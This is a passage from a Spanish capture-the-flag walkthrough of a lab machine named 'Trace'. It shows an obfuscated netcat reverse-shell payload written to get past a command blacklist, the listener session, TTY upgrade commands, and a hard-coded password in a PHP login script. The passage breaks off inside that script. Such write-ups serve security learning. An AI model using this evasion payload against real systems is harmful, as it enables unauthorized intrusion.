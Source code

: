 <img class="img" src="/assets/img/machines/Trace/8.png" width="800">

Aquí tuve que encontrar algún payload que me sirviera lo cual fue dificil, ya que todos los comandos que se utilizan generalmente para un reverse shell estaban en una blacklist además de algunos directorios importantes. Luego de probar diferentes payloads para una reverse shell el siguiente me funciono `/usr/b?n/n[c] -e /\\b\i\n/////s\h 10.0.2.48 443`.

Mande el payload a través de burpsuite me quedo de esta manera.

<img class="img" src="/assets/img/machines/Trace/9.png" width="800">

```shell
$ nc -nlvp 443
listening on [any] 443 ...
connect to [10.0.2.48] from (UNKNOWN) [10.0.2.127] 34250
```
Hice un tratamiento de la tty
```shell
script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@trace:/var/www/site2$ ^Z
[1]  + 5172 suspended  nc -nlvp 443
CTRL + Z    
$ stty raw -echo;fg
[1]  + 5172 continued  nc -nlvp 443

www-data@trace:/var/www/site2$ export TERM=xterm
www-data@trace:/var/www/site2$ export SHELL=bash
www-data@trace:/var/www/site2$ stty rows 48 columns 238
www-data@trace:/var/www/site2$ whoami
www-data
```
# Shell como yan
Recordé que había un login que se hacía a través de la función strcmp para esto la función necesita que la clave este escrita dentro del script por lo que lo revise y encontré una clave.
```shell
www-data@trace:/var/www/site1$ cd /var/www/site1
www-data@trace:/var/www/site1$ ls   
index.php  random.php
www-data@trace:/var/www/site1$ cat random.php 
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8" />
  </head>
  <body>

<?php
  if(!strcmp($_POST['login'], "admin") && !strcmp($_POST['password'], "m3g4S3cuR3p4zzW0rd"))
  {
```